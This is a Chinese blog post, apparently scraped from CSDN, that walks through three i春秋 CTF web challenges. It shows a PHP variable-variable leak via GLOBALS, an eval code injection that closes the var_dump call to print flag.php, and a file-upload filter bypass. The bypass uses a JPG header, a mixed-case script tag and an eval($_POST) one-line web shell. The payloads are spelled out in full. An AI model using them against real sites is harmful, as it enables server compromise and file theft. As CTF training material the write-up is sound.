








<!--yml
category: 未分类
date: 2022-04-26 14:17:56
-->

# i春秋CTF-WEB题解(一)_ 晓德的博客-CSDN博客_ctf题解

> 来源：[https://blog.csdn.net/weixin_42271850/article/details/107139184](https://blog.csdn.net/weixin_42271850/article/details/107139184)

## 简述

        这次转到了i春秋平台上面练习，和之前一样也是每3道题目就写一篇题解来作为记录。

### 一、爆破-1（百度杯CTF比赛 2017 二月场）


> 题目给的提示是：flag就在某六位变量中，打开题目的链接，能得到一段PHP代码。

```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>

大致代码解析如下:
引入包含"flag.php"
从请求的变量hello中取值并赋值到变量a中
对变量a的值做一个正则匹配，只允许传入正常的一些字母和数字。
然后会打印出$a。这里说明a的值需要是一个变量名才行。
结合题目的提示，应该flag是在一个变量的值，需要我们传入对应的变量名然后打印出来。 
```

> 从上面的代码分析，我们知道了现在需要的就是猜出flag所在的变量名。虽然题目叫做**爆破-1**但是通过爆破的方式肯定不现实的。因为这需要遍历36的6次方。所以我们先尝试输入写内容，看看实际的返回。

```
(1)随便输入一个?hello=123,可以看到页面没变化，这时因为没有123这个变量
(2)看代码我们知道肯定有个a变量，输入?hello=a，看到打印出string(1) "a"
(3)其实说到PHP的变量，我们很容易就能联想到全局变量，因为这个名字是固定的
输入?hello=GLOBALS，能看到打印出全局变量，其中就有flag。 
```



### 二、爆破-2（百度杯CTF比赛 2017 二月场）


> 题目提示flag不在变量中，打开题目链接，也是一段PHP代码。

```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);

大致代码解析如下:
引入包含"flag.php"
从请求的变量hello中取值并赋值到变量a中
然后回执行打印a变量
可以看到这个和之前的区别在于之前是$$a,现在是$a
有一定代码审计基础的，都很容易能看出来这里存在一个注入的点。
可以通过$a闭合前面的执行语句，然后加入我们想要执行的代码。 
```

```
现在我们需要构造相关参数来闭合前面的括号，执行我们传入的代码。
搜先输入 1); 闭合前面的括号，输入 var_dump(1 闭合后面的内容 
中间输入我们自己的代码 show_source("flag.php")
拼接起来 ?hello=1);show_source("flag.php");var_dump(1
就能看到在页面中展示了flag.php的文档内容 
```



### 三、Upload（百度杯CTF比赛 九月场）



> 看题目名字应该是一道文件上传的题目，提示中有写flag在flag.php中。打开题目地址就是个文件上传的页面。


        首先上传一张普通的图片，看一下有什么返回。


        可以看到普通的jpg格式图片是可以上传的，上传成功后会返回提示和一个链接，/u/logo.jpg。看回显的链接可以看到是将我们上传的内容放到了/u/目录下，名字也是没有另外随机命名的。尝试一下上传PHP的一句话木马。


        上传一句话木马的时候没有回显文件上传成功，证明被拦截了。一般文件上传题，需要注意的是上面这几点：1）文件名后缀 2）文件类型 3）文件头 4）文件内容。我们一个个改。

```
首先将文件名改为web_shell.jpg，没有显示文件上传成功。
然后将Contetn-Type改为image/jpeg，没有显示文件上传成功。
然后在重新制作一个图片马，在前面加入jpg的文件头
JPG ：FF D8 FF E0 00 10 4A 46 49 46 0D 0A
然后发现上传成功了。 
```



```
但是在访问的时候，页面返回ÿØÿàJFIF @eval($_POST['key']);?>
可以很清楚看到少了 <?php ，应该是被过滤了
然后一句话改成<script language="php"> @eval($_POST['key']); </script>
然后访问页面查看源代码的时候，发现php被过滤了，然后将php改成PhP大小写绕过。
访问的时候可以看到文件内容没有返回，我们传入的内容应该是别当作php来执行了。
但是尝试?key=phpinfo()的时候，确没有返回phpinfo()页面。
我们尝试直接在上传的文件中写入读取flag.php的相关代码。

??JFIF
<script language="Php">
$a = "../flag.p";
$b = "hp";
file_get_contents($a.$b);
</script>
使用字符拼接的方式来绕过php的过滤，访问页面看到也是没直接回显。
但是右键查看源代码可以看到flag。 
```

